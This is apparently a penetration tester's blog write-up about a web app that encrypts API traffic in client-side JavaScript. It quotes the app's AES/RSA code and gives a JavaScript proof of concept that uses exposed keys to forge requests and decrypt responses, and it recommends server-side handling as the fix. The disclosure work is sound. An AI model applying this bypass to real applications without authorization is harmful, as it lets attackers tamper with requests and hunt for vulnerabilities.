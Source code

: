 # Javascript Side Insecure Encryption

Hi,

In an application I tested, I realized that the requests sent were sent in encrypted form and the response was sent to the user in the same way.
In this way, the attacker would not be able to detect vulnerabilities on parameters.


![enter image description here](https://raw.githubusercontent.com/azizaltuntas/azizaltuntas.github.io/master/_posts/enctraffic/1.png)

While investigating this situation, I started to research this algorithm on the javascript side.

![enter image description here](https://raw.githubusercontent.com/azizaltuntas/azizaltuntas.github.io/master/_posts/enctraffic/2.png)

As you can see, while performing the debug operation on the code, the content of the request sent is seen and encrypted with certain algorithms. In addition, since the request sent for each api function will be seen on the javascript side, the attacker can copy it and send it again by changing the JSON data.
```javascript

  t.prototype.encryptRequestData = function(t) {
                var n = Math.random().toString(36).substring(2, 15) + Math.random().toString(36).substring(2, 15)
                  , e = ha.AES.encrypt(JSON.stringify(t), n).toString()
                  , l = new pa.JSEncrypt;
                return l.setPublicKey(this.CONSTANTS.authorization.client_public_key),
                {
                    encData: e,
                    encVal: l.encrypt(n.toString())
                }
            }

```

In line *75666*, a random secret key is created *(Math.random)* first to encrypt the request with public_key. Then, with the *"CryptoJS"* library, the encryption process is carried out with AES.

The request consists of 2 parts;

*1- encData = Original request content*
*2- encVal = The secret key used to decrypt the request*


![enter image description here](https://raw.githubusercontent.com/azizaltuntas/azizaltuntas.github.io/master/_posts/enctraffic/3.png)

As you can see, when you make a request with these 2 parameters, the response is resolved with a private key using the *"JSEncrypt"* library. This weakness, of course, causes the encryption process to be disclosed in the public and private key because it is done on the javascript side.

![enter image description here](https://raw.githubusercontent.com/azizaltuntas/azizaltuntas.github.io/master/_posts/enctraffic/4.png)

I wrote a code to edit my request and send it.

![enter image description here](https://raw.githubusercontent.com/azizaltuntas/azizaltuntas.github.io/master/_posts/enctraffic/5.png)

I can see the answer in clear text by encrypting the original request and then putting the returned answer into the decrypt process. In this way, the attacker can perform vulnerability investigations again.



**My POC Code;**

```javascript
//Keys

var public_key = "-----BEGIN PUBLIC KEY-----SNIP-----END PUBLIC KEY-----"
var private_key = "-----BEGIN PRIVATE KEY-----SNIP----END PRIVATE KEY-----"

//Encrypt Request Function

var enckey = Math.random().toString(36).substring(2, 15) + Math.random().toString(36).substring(2, 15)
var myString   = { category_id_list: ["9"], access_token: "2_5POBmbyrGom3GqMpRY--SNIP--AAMlYwkZjTe1GY28m_LwAjEci"};
var enc = ""
var encrypted = CryptoJS.AES.encrypt(JSON.stringify(myString), enckey).toString();
var decrypted = CryptoJS.AES.decrypt(encrypted, enckey);
l = new JSEncrypt;
l.setPublicKey(public_key)

console.log("Encrypt Key:", enckey)
console.log("Original String:", JSON.stringify(myString));
console.log("encData:", encrypted);
console.log("encVal:", l.encrypt(enckey.toString()))
console.log("Decrypt String:", decrypted.toString(CryptoJS.enc.Utf8));

//Decrypt Response Function

var encResVal = ""
var encResData = ""
var e = new JSEncrypt;
e.setPrivateKey(private_key);
var l = e.decrypt(encResVal, "utf8")
var i = CryptoJS.AES.decrypt(encResData, l).toString(CryptoJS.enc.Utf8);
console.log("encResData", i)

```



This encryption process needs to be done on the PHP side. In this way, the attacker cannot reach the public and private key and algorithm.
